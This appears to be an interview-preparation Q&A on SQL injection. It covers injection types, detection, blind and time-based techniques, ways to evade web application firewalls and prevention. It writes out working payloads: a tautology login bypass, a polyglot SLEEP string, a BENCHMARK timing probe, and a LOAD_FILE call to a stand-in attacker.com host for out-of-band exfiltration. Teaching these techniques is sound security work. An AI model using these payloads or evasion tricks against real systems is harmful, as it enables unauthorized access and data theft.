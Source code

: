 ### 1. **What is SQL Injection and how does it work?**
**Answer:**
SQL Injection (SQLi) is a security vulnerability that occurs when an attacker manipulates an application's SQL queries by inserting malicious SQL code into the input fields. This allows the attacker to interact directly with the database. For example, an attacker might insert the following payload into a login form: `' OR '1'='1`, which causes the query to always return true, granting unauthorized access to the system.

### 2. **What are the different types of SQL Injection attacks?**
**Answer:**
SQL Injection can be categorized into several types:
- **Union-based SQLi**: This technique combines the results of two or more SELECT statements.
- **Error-based SQLi**: This uses the database's error messages to gain information about its structure.
- **Blind SQLi**: Involves asking the database true/false questions and deducing information based on the application's responses.
- **Boolean-based Blind SQLi**: This is a form of Blind SQLi where the attacker uses boolean conditions to determine the existence of certain data.
- **Time-based Blind SQLi**: Involves sending a query that forces the database to delay its response, revealing information about the database based on the response time.
- **Out-of-Band SQLi (OAST)**: Uses alternative communication channels (like DNS or HTTP requests) to exfiltrate data when direct responses are not possible.
- **Second-order SQL Injection**: The attack payload is stored in the database and later executed when the data is retrieved and used in another query.

### 3. **How do you identify potential SQL Injection vulnerabilities in a web application?**
**Answer:**
Potential SQL Injection vulnerabilities can be identified by:
- **Error Messages**: Triggering error messages (e.g., by entering a single quote `'`) and observing the output can indicate potential SQLi vulnerabilities.
- **Special Characters**: Entering characters like `'`, `;`, or `--` in input fields can expose vulnerabilities.
- **Tautology Testing**: Using always-true conditions, like `' OR '1'='1`, in form fields can help identify injection points.
- **Timing Attacks**: Introducing delays with functions like `SLEEP()` in the query can help confirm if a site is vulnerable to Time-based SQLi.
- **DBMS-Specific Payloads**: Using specific database management system (DBMS) keywords or functions, such as `SELECT VERSION()` or `USER()` for MySQL, helps identify the type of DBMS being used.

### 4. **Explain the concept of Blind SQL Injection. How do you perform it?**
**Answer:**
Blind SQL Injection occurs when an application does not display database error messages, so attackers cannot directly observe the result of their injection. Instead, attackers ask true/false questions and infer the results from changes in the application's behavior. There are two types of Blind SQLi:
- **Boolean-based Blind SQLi**: The attacker checks for changes in the behavior (e.g., page content) based on a boolean condition (true or false). For example:
  - `http://example.com?id=1 AND 1=1` (true)
  - `http://example.com?id=1 AND 1=2` (false)
- **Time-based Blind SQLi**: The attacker inserts a delay (e.g., `SLEEP(5)`) and measures the response time to infer whether the condition is true or false.

### 5. **What are the challenges associated with detecting and exploiting Blind SQL Injection?**
**Answer:**
Blind SQL Injection attacks are difficult to detect and exploit because:
- **No visible error messages**: The attacker does not receive direct feedback from the database.
- **Slow response times**: Time-based Blind SQLi requires precise measurements of response times, which can be challenging if the network latency or server load interferes.
- **Efficient querying**: Extracting data via Blind SQLi requires many requests, and techniques like binary search (dichotomy) are often used to speed up the process by narrowing down the possibilities faster.

### 6. **How can you bypass web application firewalls (WAFs) during SQL Injection attacks?**
**Answer:**
WAFs are designed to prevent SQL Injection attacks by detecting and blocking malicious queries. To bypass WAFs, attackers might use:
- **Encoding techniques**: Using URL encoding (`%27` for a single quote `'`) or double encoding (`%2527`) to bypass WAF filters.
- **Whitespace alternatives**: Replacing spaces with alternative characters such as `%09` (tab), `%0A` (newline), or `%20` (space).
- **Case manipulation**: Changing the case of SQL keywords (e.g., `SELECT` to `sElEcT`) to avoid detection by case-sensitive filters.
- **Comment injection**: Using comments (`--`, `/* */`) to break up suspicious SQL code and confuse WAFs.
- **Stacked queries**: Using semicolons `;` to separate multiple queries within a single request if the database allows stacked queries.

### 7. **What are Polyglot SQL Injections?**
**Answer:**
Polyglot SQL Injection is a sophisticated attack technique where the payload can work across different contexts and databases without modification. This type of injection can bypass filters, validation checks, and escape mechanisms by being valid in multiple SQL dialects (e.g., MySQL, MSSQL, and Oracle). An example of a polyglot payload is:
```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
The goal is to create a single payload that can execute successfully regardless of the DBMS or input filtering mechanism.

### 8. **Explain the concept of Time-Based SQL Injection and provide an example payload.**
**Answer:**
Time-based SQL Injection relies on deliberately causing a delay in the database response. By injecting a query that forces the database to sleep or wait, the attacker can infer whether certain conditions are true or false based on how long the server takes to respond.
Example of a time-based payload:
```sql
http://example.com/item?id=1 AND IF(SUBSTRING(VERSION(), 1, 1) = '5', BENCHMARK(1000000, MD5(1)), 0) --
```
If the server takes longer to respond (due to the `BENCHMARK` function), the attacker knows that the version starts with '5'. This technique is useful when error messages are not returned and there is no direct feedback from the application.

### 9. **What is Out-of-Band SQL Injection (OAST), and how is it different from traditional SQL Injection?**
**Answer:**
Out-of-Band SQL Injection (OAST) involves using alternative channels (like DNS, HTTP, or FTP requests) to exfiltrate data from a database. Unlike traditional SQL Injection, which relies on visible database responses, OAST leverages the database’s ability to initiate network connections to an attacker-controlled server. This technique is particularly useful when direct server responses are not available or reliable.

Example of DNS exfiltration:
```sql
SELECT LOAD_FILE('\\\\attacker.com\\file')
```
If successful, the database will attempt to fetch a file from the attacker's server, sending data out-of-band.

### 10. **How would you prevent SQL Injection vulnerabilities in an application?**
**Answer:**
To prevent SQL Injection vulnerabilities:
- **Use Prepared Statements**: Prepared statements with parameterized queries ensure that user input is treated as data and not executable code. This is the most effective way to prevent SQL Injection.
- **Input Validation**: Always validate and sanitize user inputs by allowing only expected data (e.g., numeric, alphabetic).
- **Stored Procedures**: Using stored procedures can help isolate user input from SQL code. However, they must still be used carefully to avoid dynamic SQL vulnerabilities.
- **Escape Special Characters**: Escape special characters such as `'`, `"`, `;`, etc., to prevent them from being treated as SQL syntax.
- **Limit Database Permissions**: Apply the principle of least privilege to database accounts, ensuring that applications cannot execute harmful queries.
- **Use Web Application Firewalls (WAFs)**: WAFs can filter and block malicious SQL Injection attempts.
- **Regular Security Testing**: Perform regular vulnerability scanning and penetration testing to identify and mitigate SQL Injection risks.

### 11. **What are the security implications of using SQL Injection to bypass authentication?**
**Answer:**
SQL Injection can allow attackers to bypass authentication mechanisms by manipulating SQL queries that validate user credentials. For instance, if a login form uses the query:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```
An attacker can modify the input to:
```sql
' OR '1'='1' --
```
This will make the query return true, bypassing authentication entirely. Attackers can use this method to gain unauthorized access to user accounts, administrative panels, and sensitive data, leading to potential data theft, account takeover, and even full system compromise.

---
